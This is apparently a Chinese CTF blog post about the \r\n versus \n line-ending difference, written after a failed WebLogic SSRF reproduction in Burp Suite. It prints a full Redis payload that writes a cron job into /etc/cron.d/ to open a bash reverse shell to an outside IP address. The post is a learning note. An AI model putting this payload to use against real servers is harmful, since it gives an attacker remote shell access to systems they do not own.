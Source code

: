```yaml
---
title: "\\r\\n的问题"
date: 2024-01-03 17:10:24
tags:
    - CTF
    - 杂谈
    - Misc
---
```


> `\r\n`是我们需要的换行字符，`\r`代表回车，`\n`代表换行
>
> `\r`就是回到行首，`\n`就是到下一行的，但是一般我们输出程序时，看不到明显的差别的。通常用的Enter是两个加起来
>
> `\r\n`与`\n`是有区别的
> 如果要通用的则是`\r\n`，因为有些编辑器它不认`\n`
>
> Link: https://blog.csdn.net/qq_39118371/article/details/127526198



`\r\n`的URL编码结果是`%0D%0A`

在一次复现weblogic SSRF漏洞使用Burpsuite发payload的时候发现一个问题，使用自己url编码器编码的payload无法成功，使用网上教程的payload可以。于是我对比了一下两个的区别，居然是缺少了`\r`，payload中需要使用`\r\n`。我感觉这个是老生长谈的问题，之前也遇到过，但是很久远了，于是这次把它记录下来。（de这个bug居然折腾我一天）

payload对比

![截屏2023-07-13 16.03.28](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131722528.png)

需要执行的payload编码前是

```
test

set 1 "\n\n\n\n* * * * * root bash -c 'sh -i >& /dev/tcp/192.168.43.49/9001 0>&1'\n\n\n\n"
config set dir /etc/cron.d/
config set dbfilename nopwn
save

aaa
```

如果直接丢入编码器编码会把换行编码为`\n`，不是我们要的`\r\n`。

![image-20230713144050524](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131440712.png)

不同的payload发送出去的对比

错误的结果：

![截屏2023-07-13 16.02.22](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131826122.png)

正确的结果：

![截屏2023-07-13 16.02.49](https://cdn.jsdelivr.net/gh/ybm911/blog_picture/img/202307131827771.png)

注：这个问题，虽然简单，但是需要注意，很容易因为这种小错误导致debug半天。还是需要多多练习
